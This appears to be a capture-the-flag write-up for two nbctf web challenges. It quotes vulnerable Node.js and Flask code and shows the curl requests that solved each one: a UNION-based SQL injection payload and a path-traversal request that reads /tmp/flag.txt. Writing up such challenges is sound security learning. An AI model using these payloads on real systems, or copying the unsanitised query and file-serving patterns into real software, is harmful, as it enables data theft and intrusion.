 # Web

## walters_crystal_shop


### Info

![](screenshots/nb4.png)
![](screenshots/nb7.png)



## solution:

After analysing the code source we realise that the app use Sql database it creates tables: crystals and  flag that contains the flag

```javascript
db.serialize(() => {
  db.run("CREATE TABLE crystals (name TEXT, price REAL, quantity INTEGER)");

  const stmt = db.prepare("INSERT INTO crystals (name, price, quantity) VALUES (?, ?, ?)");

  for (const crystal of crystals) {
    stmt.run(crystal["name"], crystal["price"], crystal["quantity"]);
  }
  stmt.finalize();

  db.run("CREATE TABLE IF NOT EXISTS flag (flag TEXT)");
  db.run(`INSERT INTO flag (flag) VALUES ('${flag}')`);
});

```

here we can see the user input it's going in the query without any sanitization so it's clear a simple sql injection:
```javascript
app.get("/crystals", (req, res) => {
  const { name } = req.query;

  if (!name) {
    return res.status(400).send({ err: "Missing required fields" });
  }

  db.all(`SELECT * FROM crystals WHERE name LIKE '%${name}%'`, (err, rows) => {
    if (err) {
      console.error(err.message);
      return res.status(500).send('Internal server error');
    }

    return res.send(rows);
  });
});

```
we have the table name and the column name and we know that we have 3 columns `(name, price, quantity)` so our payload should be:

```bash
┌──(mo㉿ElMo)-[~/Documents/CTF/nbctf]
└─$ curl https://walters-crystal-shop.chal.nbctf.com/crystals?name=abc%27%20union%20select%20null,null,flag%20from%20flag%20--             
[{"name":null,"price":null,"quantity":"nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}"}]
```
and we got it :)


## galleria


### Info
![](screenshots/nb3.png)
![](screenshots/nb8.png)

i spent in this challenge like three hours trying to get RCE using file upload specially when i saw all ppl tryin the same

![](screenshots/nb9.png)

but then i decided to read the code source again 

## solution:

here the `check_file_path` function does not really filter the query `file` which we have full control of it

```python
def check_file_path(path):
    _path = Path(path)

    parts = [*Path.cwd().parts][1:]
    for part in _path.parts:
        if part == '.':
            continue
        if part == '..':
            parts.pop()
        else:
            parts.append(part)

        if len(parts) == 0:
            return False

    _path = os.path.join(os.getcwd(), path)
    _path = Path(_path)
    return _path.exists() and _path.is_file()
    
    
@app.route('/gallery')
def gallery():
    if request.args.get('file'):
        filename = os.path.join('uploads', request.args.get('file'))
        if not check_file_path(filename):
            return redirect(url_for('gallery'))

        return send_file(filename)

    image_files = [f for f in os.listdir(
        app.config['UPLOAD_FOLDER'])]
    return render_template('gallery.html', images=image_files)
```

also after checking the docker file :

`COPY flag.txt /tmp/flag.txt`

so our payload should be simple path traversal and not a file upload XD

```bash
┌──(mo㉿ElMo)-[~/Documents/CTF/nbctf]
└─$ curl https://galleria.chal.nbctf.com/gallery?file=/tmp/flag.txt                                                           
nbctf{w0nd3rh0000yyYYyYyyYyyyYyYYYyy!}
```



